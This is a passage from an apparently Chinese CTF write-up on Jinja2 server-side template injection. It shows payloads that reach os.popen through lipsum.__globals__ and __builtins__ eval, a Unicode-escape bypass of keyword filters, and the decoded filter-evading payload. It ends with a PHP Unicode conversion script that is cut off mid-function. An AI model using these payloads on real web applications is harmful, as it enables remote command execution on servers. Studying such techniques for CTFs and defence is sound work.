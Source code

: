然后用他直接调用`__globals__`发现可以直接执行 os 命令，测了一下发现`__builtins__`也可以用，又学到了一种新方法，只能说师傅们 tql

```
{{lipsum.__globals__['os'].popen('whoami').read()}}
{{lipsum.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}
```

回到正题，这里使用了 Unicode 编码绕过关键字，下面两行是等价的

```
{{()|attr("__class__")}}
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")}}
```

知道了这两点之后，那个官方给的 payload 就很明朗了，解开编码后如下

```
{%print(lipsum|attr("__globals__"))|attr("__getitem__")("os")|attr("popen")("whoami")|attr("read")()%}
```

然后我这里顺便给个 Unicode 互转的 php 脚本

```
<?php
//字符串转Unicode编码
function unicode_encode($strLong) {
  $strArr = preg_split('/(?<!^)(?!$)/u', $strLong);//拆分字符串为数组(含中文字符)
  $resUnicode = '';
  foreach ($strArr as $str)
  {
      $bin_str = '';
      $arr = is_array($str) ? $str : str_split($str);//获取字符内部数组表示,此时$arr应类似array(228, 189, 160)
      foreach ($arr as $value)
      {
          $bin_str .= decbin(ord($value));//转成数字再转成二进制字符串,$bin_str应类似111001001011110110100000,如果是汉字"你"
      }
      $bin_str = preg_replace('/^.{4}(.{4}).{2}(.{6}).{2}(.{6})$/', '$1$2$3', $bin_str);//正则截取, $bin_str应类似0100111101100000,如果是汉字"你"
      $unicode = dechex(bindec($bin_str));//返回unicode十六进制
      $_sup = '';
      for ($i = 0; $i < 4 - strlen($unicode); $i++)
      {
          $_sup .= '0';//补位高字节 0
      }
      $str =  '\\u' . $_sup . $unicode; //加上 \u  返回
      $resUnicode .= $str;
  }
  return $resUnicode;
}
//Unicode编码转字符串方法1
function unicode_decode($name)
{
  // 转换编码，将Unicode编码转换成可以浏览的utf-8编码
  $pattern = '/([\w]+)|(\\\u([\w]{4}))/i';
  preg_match_all($pattern, $name, $matches);
  if (!empty($matches))
  {
    $name = '';
    for ($j = 0; $j < count($matches[0]); $j++)
    {
      $str = $matches[0][$j];
      if (strpos($str, '\\u') === 0)
      {
        $code = base_convert(substr($str, 2, 2), 16, 10);
        $code2 = base_convert(substr($str, 4), 16, 10);
        $c = chr($code).chr($code2);
```